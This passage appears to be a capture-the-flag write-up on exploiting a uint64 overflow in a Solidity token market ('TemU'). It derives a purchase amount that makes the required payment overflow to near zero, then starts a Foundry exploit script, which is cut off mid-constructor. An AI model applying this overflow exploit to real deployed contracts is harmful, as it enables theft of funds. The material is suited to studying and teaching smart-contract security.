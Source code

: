 Assume we have an input `x` of `130` and a constant multiplier `y` of `2`. We need to find a new value for `x` such that `(new_x * 2) % 256` is equal to`0`. The current value of `130` does not work, as `(130 * 2) % 256` is not `0`.

To find the new `x` from the given one, we can use the following formula: `new_x = 130 - ((130 * 2) % 256) / 2`. This new `x` will give a result of zero when multiplied by 2, modulo 256. We can generalize it as `new_x = old_x - ((old_x*y)%2**(number_of_bits))/y`

Now, let's get back to the solution. In our case, the overflow happens with `uint64` values. As we saw, if we try to buy the `TemU` contract's entire `GOLD` balance (`1e18`), the ethRequired after the overflow is still about `11.1 ether`, which is more than the `1 ether` we have.

We can use our generalized formula to find a goldToBuy amount that will cause the ethRequired to overflow to a value that is almost zero. This allows us to buy a massive number of tokens for a tiny price.

The generalized formula is: `new_x = old_x - ((old_x * y) % (2**number_of_bits)) / y`


We can map the variables from the buyGold function to this formula:
- `old_x`: 1e18 (GOLD balance of TemU)
- `y`: The constant price of one GOLD token, which is `1e9`.
- `number_of_bits`: The integer size we are overflowing, which is `64`.

Plugging these values in, the ideal goldToBuy amount (new_x) can be calculated as: `goldToBuy = 1e18 - ((1e18 * 1e9) % (2**64)) / 1e9`

This calculation gives us the largest possible `goldToBuy` value (starting from the contract's balance) that results in an `ethRequired` of less than 0.1 ether. 

### Exploit Script

The below is the exploit script:

```solidity
pragma solidity ^0.8.0;

import {Script,console} from "forge-std/Script.sol";
import {TemU} from "src/TemU.sol";
import {iTems} from "src/iTems.sol";
import {Tem} from "src/Tem.sol";
import {ERC1155Holder} from "lib/openzeppelin-contracts/contracts/token/ERC1155/utils/ERC1155Holder.sol";


contract Solve is Script{
    function run()public{
        vm.startBroadcast();
        TemU market=TemU(address(0xe7f1725E7734CE288F8367e1Bb143E90bb3F0512));
        Exploit exploit=new Exploit(market);
        exploit.pwn{value: 0.1e18}();
        iTems token=market.token();
        require(token.balanceOf(address(exploit), 2)==10);
        vm.stopBroadcast();
    }
}


contract Exploit is ERC1155Holder{

    uint256 price=1e9;
    uint256 balance=1000000000000000000;
    uint256 qunatityToPurchase=1;
    TemU market;
    iTems token;
    uint256 listingIdToPurchase;
    uint8 count=0;
    constructor(TemU _market){
```